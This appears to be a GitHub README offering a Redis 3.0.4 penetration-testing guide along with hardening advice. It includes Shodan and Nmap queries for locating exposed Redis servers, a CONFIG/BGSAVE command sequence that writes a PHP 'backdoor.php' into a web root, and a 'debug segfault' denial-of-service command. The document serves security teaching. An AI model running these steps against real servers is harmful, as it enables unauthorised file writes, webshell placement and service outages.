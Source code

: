# Redis.turb
## *Redis.io* Penetration Testing (v3.0.4)
![GitHub Logo](/Redis_Logo.jpg)
##### Intro

*Redis.io* is an open source in-memory database developed to store volatile data like messages, cache, cookie, etc.

I beg you to read [Redis.io/security](http://redis.io/topics/security) if you have any intention to setup *Redis.io* in production mode.

##### Discover misconfigured *Redis.io* using *Shodan* and *Nmap*

*Shodan* give us a powerful tool to find several misconfigured servers.

` { product:"Redis key-value store", port:"6379" } `

*Nmap* is useful to quickly find open ports.

`nmap -p 6379 -n --open --script=redis-info xxx.xxx.xxx.xxx/yy`

##### Upload malicious file
Requirement : access to CONFIG and BGSAVE or SAVE
```
localhost:6379> config set dir /var/www/html
OK
localhost:6379> config get dir
1) "dir"
2) "/var/www/html"
- - - - -
localhost:6379> config set dbfilename backdoor.php
OK
localhost:6379> config get dbfilename
1) "dbfilename"
2) "backdoor.php"
- - - - -
localhost:6379> set cmd "<?php phpinfo(); ?>"
OK
localhost:6379> bgsave
Background saving started
- - - - -
-rw-r--r-- 1 redis redis 45 Sep 19 17:01 backdoor.php
```

##### Denial Of Service

```
localhost:6379> debug segfault
(9.69s)
not connected> 
```

#### Security Best Practices

##### Only bind *Redis.io* to Loopback

Add to **redis.conf** :

`bind 127.0.0.1`

Allow access only from loopback (implied that the application that needs *Redis.io* running on the same host).

##### Enable authentication

Add to **redis.conf** :

`requirepass foobabar`

Thus, run *Redis.io* with your **redis.conf** file :

`redis-server /fullpath/to/redis.conf`

#### Fuzzing *Redis.io*

##### OpenRCE - Sulley
![OpenRCE Logo](/OpenRCE_Logo.jpg)
coming soon ...
